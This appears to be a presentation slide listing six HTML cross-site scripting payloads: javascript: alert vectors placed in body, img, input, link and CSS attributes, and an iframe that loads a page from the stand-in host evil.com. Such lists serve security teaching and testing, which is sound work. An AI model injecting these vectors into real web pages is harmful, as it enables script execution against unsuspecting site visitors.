

# OTHER EXAMPLES
<body background="javascript:alert("XSS")">
<img src="javascript:alert("XSS");">
<iframe src="http://evil.com/xss.html">
<input type="image" src="javascript:alert('XSS');">
<link rel="stylesheet" href="javascript:alert('XSS');">
<div style="background-image: url(javascript:alert('XSS'))">